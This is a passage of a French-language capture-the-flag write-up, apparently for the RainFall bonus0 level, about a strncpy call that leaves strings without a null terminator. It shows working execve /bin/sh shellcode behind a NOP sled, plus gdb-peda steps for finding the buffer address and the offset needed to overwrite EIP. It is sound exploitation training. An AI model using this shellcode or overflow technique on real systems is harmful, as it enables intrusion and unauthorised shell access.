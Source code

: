   ```shell
      # Return
      0x0804851c <+104>:	leave
      0x0804851d <+105>:	ret
      End of assembler dump.
  ```


## 2: Comportement
  * Notre programme va donc print " - " et prendre un input1, strncpy jusqu'a 20 octets de cet input1
  * Il fait pareil avec un input2.
  * Il va ensuite les copier tous les 2 dans le buffer initial de 42 char.
  * Le strncopy n'est pas protégé contre les inputs trop longs (il ne mettra pas de \0)

## 3: Exploit

### A: Explication

> Si l'input est > à 20 caractères, le strncpy de p() ne va pas mettre de \0 a la fin de la string\
> Or, en revenant dans pp, on constate que l'on strcpy cette string d'input qui n'est pas terminée par \0.\
> Donc on continue de copier ce qu'il y a après input1 dans le buffer du main, le faisant overflow.\
> A un moment, on va donc réécrire sur l'EIP du main. A cette occasion, on peut en profiter pour mettre l'addresse d'un shellcode qu'on va écrire dans notre premier buffer d'input


### B: Creation de l'exploit

* Il nous faut donc: générer notre première NOPSLED suivie de notre shellcode (suite d'instructions NOP qui glissent à la suivante), trouver l'addresse de notre premier buffer lu ainsi que notre offset pour savoir où écrire l'addresse pointant dans notre NOPSLED.

```shell
  # NOPSLED + shellcode
  bonus0@RainFall:/tmp$ python -c 'print "\x90" * 100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\x6a\x0b\x58\xcd\x80" + "\n"'

  # Maintenant on cherche l'addresse qu'on veut pointer
  gdb-peda$ b * p+34
    Breakpoint 1 at 0x80484d6
  gdb-peda$ run
    -
    [----------------------------------registers-----------------------------------]
    # La voilà l'addresse de notre buffer. On va taper environ 80 plus loin pour tomber sur la nopsled facilement
    EAX: 0xbfffe660 --> 0x0
    [...]
    [-------------------------------------code-------------------------------------]
      0x80484d0 <p+28>:	lea    eax,[ebp-0x1008]
    => 0x80484d6 <p+34>:	mov    DWORD PTR [esp+0x4],eax
      0x80484da <p+38>:	mov    DWORD PTR [esp],0x0
    [...]
    Breakpoint 1, 0x080484d6 in p ()

  # Maintenant l'offset
  gdb-peda$ pattern create 200 patternb0
    Writing pattern of 200 chars to filename "patternb0"

  gdb-peda$ cat patternb0
    AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA

  gdb-peda$ run
```